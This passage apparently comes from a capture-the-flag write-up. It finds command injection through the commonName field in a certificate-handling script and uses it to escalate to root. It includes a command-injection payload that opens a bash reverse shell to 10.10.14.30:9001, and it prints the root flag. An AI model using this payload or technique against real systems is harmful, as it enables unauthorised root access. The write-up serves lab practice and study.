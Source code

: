 ```bash
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;

```

So there is code exec on the commonName parameter.

Copy how the cert is made:
```
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout broscience.key -out broscience.crt -days 1
```

and add a payload to the common name field.
```
$(bash -i >& /dev/tcp/10.10.14.30/9001 0>&1)
```

This works and gives a root shell. :)

root.txt:
```
172772a1121b3c91e93382375d7826c7
```